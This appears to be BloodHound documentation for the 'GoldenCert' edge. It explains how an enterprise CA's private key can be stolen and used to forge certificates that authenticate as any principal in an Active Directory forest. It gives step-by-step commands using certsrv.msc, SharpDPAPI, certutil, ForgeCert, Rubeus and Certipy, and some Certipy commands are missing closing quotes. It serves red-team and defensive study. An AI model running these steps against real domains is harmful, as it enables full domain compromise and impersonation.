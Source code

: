 ```yaml
---
title: GoldenCert
---
```


<img src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


The victim principal has a certificate private key that can be abused to sign "golden" certificates for authentication of any enabled principal in the AD forest of the domain.


The victim principal hosts the enrollment service of an enterprise CA, which implies it has the private key of the enterprise CA's certificate. This private key allows an attacker to sign certificates for authentication as any enabled principal in the AD forest of the domain, as the enterprise CA is trusted for NT authentication and chain up to a root CA.

It may not be possible to obtain the certificate private key if it is protected with a Trusted Platform Module (TPM) or using a Hardware Security Module (HSM). However, it may still be possible to compromise the AD forest. Administrative access to the enterprise CA host lets an attacker publish certificate templates, approve denied enrollment requests, and more. The victim principal will have an ESC7 edge to the domain if any such attack has been found possible by BloodHound.

## Abuse Info

### Windows

#### Step 1

Obtain CA certificate incl. private key - using built-in GUI (certsrv.msc)

1.  Open certsrv.msc as Administrator on the enterprise CA host.
2.  Right-click on the enterprise CA and select "All Tasks" followed by "Back up CA...".
3.  Click "Next", select "Private key and CA certificate", and select the location folder.
4.  Click "Next", and set a password.
5.  Click "Next" and click "Finish" to back up the certificate as a .p12 file.

#### Step 2

Obtain CA certificate incl. private key - using commandline tools

* Print all certificates of the host using SharpDPAPI.  The enterprise CA certificate is the one where issuer and subject are identical.
```
SharpDPAPI.exe certificates /machine
```
* Save the private key in .key file (e.g. cert.key) and the certificate in .pem file (cert.pem) in the same folder.
* Create a .pfx version of the CA certificate using certutil:
```
certutil.exe -MergePFX .\\cert.pem .\\cert.pfx
```
* Set password when prompted.

#### Step 3

Forge certificate and obtain a TGT as targeted principal.

* Forge a certificate of a target principal using ForgeCert:
```
ForgeCert.exe --CaCertPath cert.pfx --CaCertPassword "password123!" --Subject "CN=User" --SubjectAltName "roshi@dumpster.fire" --NewCertPath target.pfx --NewCertPassword "NewPassword123!"
```
* Request a TGT for the targeted principal using the certificate with Rubeus:
```
Rubeus.exe asktgt /user:Roshi /domain:dumpster.fire /certificate:target.pfx /password:NewPassword123!
```
### Linux

#### Step 1

* Back up the CA certificate with the credentials of a user with admin access on the enterprise CA host using Certipy.  The enterprise CA certificate is the one where issuer and subject are identical.
```
certipy ca -backup -ca 'dumpster-DC01-CA' -username jd@dumpster.fire -password 'Password123!
```
#### Step 2

Forge a certificate of a target principal:
```
certipy forge -ca-pfx dumpster-DC01-CA.pfx -upn Roshi@dumpster.fire -subject 'CN=Roshi,OU=Users,OU=Tier0,DC=dumpster,DC=fire
```
#### Step 3

Request a TGT for the targeted principal using the certificate against a given DC:
```
 certipy auth -pfx roshi_forged.pfx -dc-ip '192.168.100.10
```
## Opsec Considerations

When an attacker abuses a privilege escalation or impersonation primitive that relies on this relationship, it will necessarily result in the issuance of a certificate. A copy of the issued certificate will be saved on the host that issued the certificate.

## References

This edge is related to the following MITRE ATT&CK tactic and techniques:

* https://attack.mitre.org/techniques/T1649/

### Abuse and Opsec references

* [https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf)
* [https://github.com/GhostPack/SharpDPAPI](https://github.com/GhostPack/SharpDPAPI)
* [https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)
* [https://github.com/GhostPack/ForgeCert](https://github.com/GhostPack/ForgeCert)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)
* [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

